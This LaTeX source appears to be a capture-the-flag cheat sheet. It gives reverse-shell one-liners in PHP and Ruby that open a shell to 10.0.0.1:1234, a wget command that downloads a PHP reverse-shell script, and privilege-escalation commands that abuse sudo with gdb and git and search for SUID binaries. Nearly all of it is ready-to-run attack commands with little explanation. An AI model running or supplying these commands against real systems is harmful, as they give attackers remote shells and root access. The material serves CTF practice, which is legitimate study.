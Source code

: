 \documentclass[12pt,a4paper]{scrartcl}
\begin{document}
\subsection{PHP}
As a file:
\begin{lstlisting}
	wget https://raw.githubusercontent.com/blanks-hub/CTF/main/php-reverse-shell.php
\end{lstlisting}
Command line:
\begin{lstlisting}
	php -r '$sock=fsockopen("10.0.0.1",1234);
	exec("/bin/sh -i <&3 >&3 2>&3");'
\end{lstlisting}

\subsection{Ruby}
\begin{lstlisting}
	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;
	exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
\end{lstlisting}

\section{Privilege Escalation}
\begin{lstlisting}
	
\end{lstlisting}

\subsection{sudo -l}
\begin{lstlisting}
	sudo -u user /var/www/gdb -nx -ex '!sh' -ex quit
	
	sudo -u user /usr/bin/git help config
	!/bin/sh
\end{lstlisting}

\subsection{SUID}
Setuids can be exploited. Research for each abnormal setuid program.
To check what we can run as SUID:
\begin{lstlisting}
	find / -perm -u=s -type f 2>/dev/null
\end{lstlisting}

privilege escalation is such a large topic that it would be impossible to do it proper justice in this type of room. However, it is a necessary topic that must be covered, so rather than making a task with questions, I shall provide you all with some resources.
\end{document}
